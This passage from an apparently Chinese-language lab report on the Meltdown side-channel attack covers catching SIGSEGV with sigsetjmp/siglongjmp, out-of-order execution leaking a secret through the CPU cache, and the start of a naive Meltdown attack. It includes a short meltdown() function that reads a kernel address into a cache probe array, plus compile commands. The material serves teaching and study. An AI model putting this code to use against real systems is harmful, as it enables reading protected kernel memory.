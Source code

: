 ```c
     printf("Memory access violation!\n");
  }

  printf("Program continues to execute.\n");
  return 0;
}
```

```terminal
gcc -march=native ExceptionHandling.c -o ExceptionHandling
```

![image-20220409183032704](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311152.png)

通过`sigsetjmp()`和`siglongjmp()`模拟`try...catch`，可以发现程序成功捕捉到`SIGSEGV`信号，并且进行回滚，最后进入else异常处理分支，打印Memory access violation。



### Task 6: Out-of-Order Execution by CPU

![image-20220421132342816](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311700.png)

```terminal
gcc -march=native MeltdownExperiment.c -o MeltdownExperiment
```

![image-20220409184055732](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311100.png)

在执行`kernel_data = *(char*)kernel_data_addr;`这条语句时，CPU不会等待内存数据的访问，会继续将下一条指令加载进CPU并且执行，使得`array[7*4096 + 1024]`被加入到寄存器以及cache中。在之后的检查访问中，由于check failed，寄存器值被清空，但数据依然保存在了cache中。在Relaod中检测`array[7*4096 + 1024]`数据访问时间小于阈值，泄露出secret。

和task2一样，由于把cache hit的阈值设为80，导致有时会成功，有时会失败。



### Task 7: The Basic Meltdown Attack

#### Task 7.1: A Naive Approach

将`meltdown`的函数简单修改：

```c
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
   
  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     
  array[kernel_data * 4096 + DELTA] += 1;    // 修改成kernel_data      
}
```

编译：

```terminal
gcc -march=native MeltdownExperiment_improve.c -o task7_1
```
